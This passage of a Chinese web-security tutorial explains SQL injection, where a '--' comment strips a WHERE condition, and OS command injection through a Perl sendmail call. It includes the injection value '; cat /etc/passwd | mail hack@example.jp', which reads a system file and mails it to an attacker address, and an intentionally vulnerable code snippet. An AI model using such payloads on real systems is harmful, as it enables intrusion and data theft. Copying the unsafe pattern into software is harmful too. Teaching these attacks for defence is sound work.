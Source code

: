 > SELECT * FROM bookTbl WHERE author = '上野宣' and flag = 1; 

![1565836939002](./images/1565836939002.png)

被修改的SQL语句：

> SELECT * FROM bookTbl WHERE author ='上野宣' - -' and flag=1; 

SQL语句中的 -- 之后全视为注释。即，and flag=1 这个条件被自动忽略了。 

- ###### OS 命令注入

OS 命令注入攻击（OS Command Injection）可以从 Web 应用中通过 Shell 来调用操作系统命令。倘若调用 Shell 时存在疏漏，就可以执行插入的非法 OS 命令。 

OS 命令注入攻击可以向 Shell 发送命令，让 Windows 或 Linux 操作系统的命令行启动程序。也就是说，通过 OS 注入攻击可执行 OS 上安装着的各种程序。 

正常处理网页上表单：

> my $adr = $q->param('mailaddress');
>
> open(MAIL, "| /usr/sbin/sendmail $adr");
>
> print MAIL "From: info@example.com\n"; 

程序中的 open 函数会调用 sendmail 命令发送邮件，而指定的邮件发送地址即 $adr 的值。 

攻击者将下面的值指定作为邮件地址。 

> ; cat /etc/passwd | mail hack@example.jp 

程序接收该值，构成以下的命令组合。 

> | /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
